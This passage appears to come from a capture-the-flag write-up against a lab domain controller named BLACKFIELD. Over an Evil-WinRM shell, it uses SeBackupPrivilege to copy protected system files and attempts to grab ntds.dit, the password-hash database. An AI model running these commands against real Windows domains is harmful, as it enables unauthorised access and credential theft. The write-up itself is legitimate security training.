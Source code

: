 

Now I can read files across the filesystem. For example, I can't read
`C:\windows\system32\config\netlogon.dns` as a non-admin user:



    *Evil-WinRM* PS C:\windows\system32\config> type netlogon.dns              
    Access to the path 'C:\windows\system32\config\netlogon.dns' is denied.    
    At line:1 char:1                                                                                                     
    + type netlogon.dns                                                                                                                                                                                                                        
    + ~~~~~~~~~~~~~~~~~                                                                                                  
        + CategoryInfo          : PermissionDenied: (C:\windows\system32\config\netlogon.dns:String) [Get-Content], UnauthorizedAccessException
        + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand 



But I can copy it and read it:



    *Evil-WinRM* PS C:\windows\system32\config> Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
    *Evil-WinRM* PS C:\windows\system32\config> type \programdata\netlogon.dns
    2a754031-e5c5-4e88-bb09-09aae693753c._msdcs.BLACKFIELD.local. 600 IN CNAME DC01.BLACKFIELD.local.
    _ldap._tcp.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
    _ldap._tcp.Default-First-Site-Name._sites.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
    _ldap._tcp.pdc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
    _ldap._tcp.gc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 3268 dc01.blackfield.local.
    _ldap._tcp.Default-First-Site-Name._sites.gc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 3268 dc01.blackfield.local.
    ...[snip]...



Unfortunately, for some reason, I can't read `root.txt`:



    *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
    Opening input file. - Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
    At line:1 char:1
    + Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf ...
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
        + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege



The next file I wanted to grab was `ntds.dit`, the database on the DC
that holds all the password hashes. Unfortunately, I can't grab it
because it's in use:



    *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
    Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
    At line:1 char:1
    + Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
        + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
